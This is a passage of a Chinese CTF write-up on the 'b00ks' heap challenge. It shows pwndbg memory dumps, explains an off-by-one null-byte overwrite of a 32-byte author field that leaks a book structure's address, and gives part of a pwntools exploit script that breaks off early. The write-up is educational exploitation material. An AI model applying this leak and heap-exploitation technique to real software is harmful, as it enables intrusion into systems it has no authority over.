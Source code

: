 ```c
  else
  {
    result = 0LL;
  }
  return result;
}
```



这是我们漏洞的函数，我们看一下，我们在程序刚开始会读一个author到数据里如图

```
pwndbg> x/100xg 0x5567be53b000
0x5567be53b000:	0x0000000000000000	0x00005567be53b008
0x5567be53b010:	0x00005567be53b060	0x00005567be53b040
0x5567be53b020:	0x0000000100000000	0x0000000000000000
0x5567be53b030:	0x0000000000000000	0x0000000000000000
0x5567be53b040:	0x6161616161616161	0x6161616161616161
0x5567be53b050:	0x6161616161616161	0x6161616161616161
0x5567be53b060:	0x00005567bf82e130	0x0000000000000000
```



并存放在base+0x202018的地方，这个地方保存的值，是author的地址，我们可以看到是0x5567be53b018,里面放的值是0x00005567be53b040，这里的值就是我们的author，不过我们这个值是读入了32位，并强行把第33个字节变成了'\x00'，我们这个author的下一个数据块存放的是我们所创建的book1的结构的地址。如图所示

```
pwndbg> x/10xg 0x00005567bf82e130
0x5567bf82e130:	0x0000000000000001	0x00005567bf82e020
0x5567bf82e140:	0x00005567bf82e060	0x00000000000000c8
0x5567bf82e150:	0x0000000000000000	0x0000000000020eb1
0x5567bf82e160:	0x0000000000000000	0x0000000000000000
0x5567bf82e170:	0x0000000000000000	0x0000000000000000
```



所以这个里面放的是id，name的地址，description的地址，description的长度，我们仔细的想一想，如果我们可以把0x55fb35d9d040里的最后一个\x00变成别的，那我们print信息的时候就可以得到别的内容了，于是我们选择输入32长度的author，然后创建第一本书，并print泄露出来第一本书的地址。脚本如下

```python
1 #coding:utf8
  2 from pwn import *
  3 
  4 #context.log_level = 'debug'
  5 def create(size,content,dsize,dcontent):
  6     p.sendline("1")
  7     log.info(p.recvuntil(":"))
  8     p.sendline(str(size))
  9     log.info(p.recvuntil(":"))
 10     p.sendline(content)
 11     log.info(p.recvuntil(":"))
 12     p.sendline(str(dsize))
 13     log.info(p.recvuntil(":"))
 14     p.sendline(dcontent)
 15     log.info(p.recvuntil(">"))
...
 31 def show():
 32     p.sendline("4")
 33 
...
 38 
 39 p=process("./b00ks")
 40 context(log_level='debug', os='linux',arch="amd64")
 41 context.terminal = ['tmux', 'split', '-h']
 42 libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
 43 gdb.attach(p,"b 0x555555554000+0x1234")
```